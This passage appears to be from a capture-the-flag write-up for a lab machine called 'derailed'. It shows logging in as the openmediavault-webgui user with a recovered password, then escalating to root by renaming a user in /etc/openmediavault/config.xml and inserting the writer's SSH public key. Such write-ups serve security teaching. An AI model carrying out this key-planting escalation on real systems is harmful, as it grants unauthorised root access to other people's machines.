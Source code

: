 ```

Started: Sat Jul  8 17:37:37 2023
Stopped: Sat Jul  8 17:37:56 2023
```

```
rails@derailed:/var/www/openmediavault$ su openmediavault-webgui
Password: 
openmediavault-webgui@derailed:/var/www/openmediavault$ 
```

We can successfully login with the credentials:
```
openmediavault-webgui
greenday
```

While looking around, I saw that we can edit `/etc/openmediavault/config.xml` which looked just weird. So we have to found a way to get either `marcus` or `root` credentials from this.

While scrolling the `config.xml` I notice the part:
```xml
<user>
  <uuid>e3f59fea-4be7-4695-b0d5-560f25072d4a</uuid>
  <name>test</name>
  <email></email>
  <disallowusermod>0</disallowusermod>
  <sshpubkeys></sshpubkeys>
</user>
```
The `<sshpubkeys>` seems quite interesting so it's worth giving it a shot.
After looking at the [template config]() we see an example of how the `<sshpubkeys>` should look like:
```xml
<user>
	<uuid>xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx</uuid>
	<name>xxx</name>
	<email>xxx</email>
	<disallowusermod>0</disallowusermod>
	<sshpubkeys>
		<sshpubkey>|xxx</sshpubkey>
	</sshpubkeys>
</user>
```
Now, as per [documentation about the SSH service](https://docs.openmediavault.org/en/6.x/administration/services/ssh.html?highlight=ssh), we have to pass the key as a `RFC 4716` format. The doc page provides us with the command to do so, hence we do:
```
λ ssh-keygen -e -f id_ed25519.pub
---- BEGIN SSH2 PUBLIC KEY ----
Comment: "256-bit ED25519, converted by imagine@sadness from OpenSSH"
AAAAC3NzaC1lZDI1NTE5AAAAIEaJTzw7dnMV0tQkPttoWgxgBX0hjauqssuZ6s5wCPDC
---- END SSH2 PUBLIC KEY ----
```
Finalizing things, we change the username from `test` to `root`:
```xml
<user>
  <uuid>e3f59fea-4be7-4695-b0d5-560f25072d4a</uuid>
  <name>root</name>
  <email></email>
  <disallowusermod>0</disallowusermod>
  <sshpubkeys><sshpubkey>---- BEGIN SSH2 PUBLIC KEY ----
Comment: "256-bit ED25519, converted by imagine@sadness from OpenSSH"
AAAAC3NzaC1lZDI1NTE5AAAAIEaJTzw7dnMV0tQkPttoWgxgBX0hjauqssuZ6s5wCPDC
---- END SSH2 PUBLIC KEY ----</sshpubkey>
</sshpubkeys>
</user>
```